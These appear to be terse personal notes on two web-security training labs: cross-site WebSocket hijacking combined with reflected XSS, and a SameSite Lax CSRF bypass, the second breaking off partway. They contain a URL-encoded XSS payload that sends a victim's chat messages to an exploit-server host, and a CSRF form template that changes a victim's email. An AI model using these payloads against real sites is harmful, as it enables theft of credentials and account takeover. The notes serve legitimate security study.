 - Notice that the response is not that great we need more response from
- Look through the javascript files and notice that the allowed
- Notice The Acsess Control allow origin allows another sibling domain 
- Copy the domain and notice how the login is vulnerable to xss
- change the request from POST to GET and notice that it is still possible
- Convert the above code to url encoding and paste it in the GET request, notice how it will put all the javascript on the screen
- Then copy the whole url and do this in the exploit server

```
<script>
window.location="https://cms-0aeb00fc034ffebc809c2bef00d10010.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%63%6f%6e%73%74%20%73%6f%63%6b%65%74%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%22%77%73%73%3a%2f%2f%30%61%65%62%30%30%66%63%30%33%34%66%66%65%62%63%38%30%39%63%32%62%65%66%30%30%64%31%30%30%31%30%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%22%29%3b%0a%0a%20%20%20%20%73%6f%63%6b%65%74%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%2f%2f%20%53%65%6e%64%20%22%52%65%61%64%79%22%20%77%68%65%6e%20%63%6f%6e%6e%65%63%74%69%6f%6e%20%69%73%20%65%73%74%61%62%6c%69%73%68%65%64%0a%20%20%20%20%73%6f%63%6b%65%74%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%0a%20%20%20%20%73%6f%63%6b%65%74%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%66%65%74%63%68%28%0a%20%20%20%20%20%20%20%20%22%68%74%74%70%73%3a%2f%2f%65%78%70%6c%6f%69%74%2d%30%61%63%37%30%30%34%61%30%33%36%65%66%65%31%65%38%30%35%33%32%61%61%38%30%31%39%66%30%30%32%64%2e%65%78%70%6c%6f%69%74%2d%73%65%72%76%65%72%2e%6e%65%74%2f%65%78%70%6c%6f%69%74%3f%6d%65%73%73%61%67%65%3d%22%20%2b%20%65%76%65%6e%74%2e%64%61%74%61%0a%20%20%20%20%29%0a%20%20%20%20%7d%3b%20%20%20%0a%3c%2f%73%63%72%69%70%74%3e&password=books"
</script>
```
- Go to exploit server deliver to victim
- Go to server logs and copy carlos password.
- Login to carlos account and solve the love
 

# Lab: SameSite Lax bypass via cookie refresh
## Study the change email function
- In Burp's browser, log in via your social media account and change your email address.
- In Burp, go to the Proxy > HTTP history tab.
- Study the POST /my-account/change-email request and notice that this doesn't contain any unpredictable tokens, so may be vulnerable to CSRF if you can bypass any SameSite cookie restrictions.
- Look at the response to the GET /oauth-callback?code=[...] request at the end of the OAuth flow. 
- Notice that the website doesn't explicitly specify any SameSite restrictions when setting session cookies. 
- As a result, the browser will use the default Lax restriction level.

## Attempt a CSRF attack
- In the browser, go to the exploit server.
- Use the following template to create a basic CSRF attack for changing the victim's email address:
```
<script>
    history.pushState('', '', '/')
</script>
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```
- Store and view the exploit yourself. 
- What happens next depends on how much time has elapsed since you logged in:
- If it has been longer than two minutes, you will be logged in via the OAuth flow, and the attack will fail. 